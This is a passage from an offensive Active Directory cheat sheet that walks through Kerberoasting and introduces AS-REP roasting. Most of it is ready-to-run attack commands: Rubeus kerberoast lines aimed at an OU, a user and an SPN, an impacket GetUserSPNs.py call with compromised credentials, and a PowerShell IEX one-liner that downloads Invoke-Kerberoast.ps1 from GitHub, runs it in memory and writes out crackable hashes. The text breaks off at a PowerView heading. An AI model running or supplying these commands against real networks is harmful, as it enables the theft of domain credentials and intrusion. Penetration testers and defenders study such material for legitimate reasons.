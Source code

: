     Kerberoast All Users in a Specific OU (Good if Organization has all Service Accounts in a Specific OU)

    PS > .\Rubeus kerberoast /ou:OU=SerivceAcc,DC=m0chanAD,DC=local /outfile:C:\Temp\TotallyNotHashes.txt

    Roasting a Specific Users or SPN

    PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /user:mssqlservice

    PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /spn:MSSQLSvc/SQL.m0chanAD.local

    
    
    
            Invoke-Kerberoast.ps1

    

    PS C:\Temp > IEX(new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1";Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hash.kerberoast





--From Linux

    Kerberoasting from Linux is a little but different as we are most likely not authenticated to the domain in anyway so will have to pass a stolen Kerberos ticket through for authentication or domain credentials.

            
            GetUserSPNs.py

    Using impackets GetUserSPNs.py with found creds

    $ python GetUserSPNs.py m0chanAD/pwneduser:pwnedcreds -outputfile hashes.kerberoast






                            ------AS-REP Roasting


    AS-REP roasting is an attack that  you have to explicitly set Accounts Does not Require Pre-Authentication aka DONT_REQ_PREAUTH.

    Pre-Authentication is the first step in Kerberos Authentication and it’s main role is to try prevent against brute-force password guessing attacks.

    Typcially during Pre-Auth a user will enter his creds which will be used to encrypt a time stamp and the DC will decrypt it to validate that the correct creds were used. If the DC verifies okay it will issue a TGT however if Pre-Authentication is disabled it would allow an attacker to request a ticket for any user and the DC would simply return a TGT which will be encrypted similar to the Kerberoast attack which can be cracked offline.


-From Windows

                Powerview

    Enumeration
